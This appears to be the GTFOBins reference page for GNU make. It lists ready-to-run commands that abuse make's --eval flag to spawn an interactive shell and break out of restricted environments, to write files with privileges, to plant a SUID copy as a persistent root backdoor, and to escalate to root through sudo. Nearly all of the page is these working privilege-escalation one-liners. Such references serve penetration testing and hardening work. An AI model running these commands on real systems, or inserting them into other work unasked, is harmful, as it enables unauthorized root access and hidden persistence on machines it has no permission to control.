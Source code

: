 # GTFOBin: make

All these examples only work with GNU `make` due to the lack of support of the `--eval` flag. The same can be achieved by using a proper `Makefile` or by passing the content via stdin using `-f -`.

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
COMMAND='/bin/sh'
make -s --eval=$'x:\n\t-'"$COMMAND"
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

Requires a newer GNU `make` version.

```
LFILE=file_to_write
make -s --eval="\$(file >$LFILE,DATA)" .
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which make) .

COMMAND='/bin/sh -p'
./make -s --eval=$'x:\n\t-'"$COMMAND"
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
COMMAND='/bin/sh'
sudo make -s --eval=$'x:\n\t-'"$COMMAND"
```